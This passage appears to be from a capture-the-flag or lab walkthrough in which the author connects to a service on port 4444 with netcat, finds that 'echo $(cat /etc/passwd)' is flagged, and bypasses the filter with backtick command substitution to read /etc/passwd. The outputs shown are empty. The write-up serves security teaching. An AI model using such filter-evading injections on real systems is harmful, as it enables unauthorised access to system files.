





3.2 Port 4444 "netcat"
1. From the Kali Linux machine connect with “netcat” and the password you got in the previous step.
$ nc 192.168.12.75 4444
Output:

2. Introduce the passwor.
Output:

3. Look for help to see what commands you can run. Type “?”.
Output:

4. Run the following commands.
id
whoami
echo $(cat /etc/passwd)
Output:

From this results you know the following:
• You're accessing as “bred” user.
• The “echo” command is detected as an attack.
5. Run the “echo” command with another sintax.
echo `cat /etc/passwd`
Output:

You got the “/etc/passwd” file's content.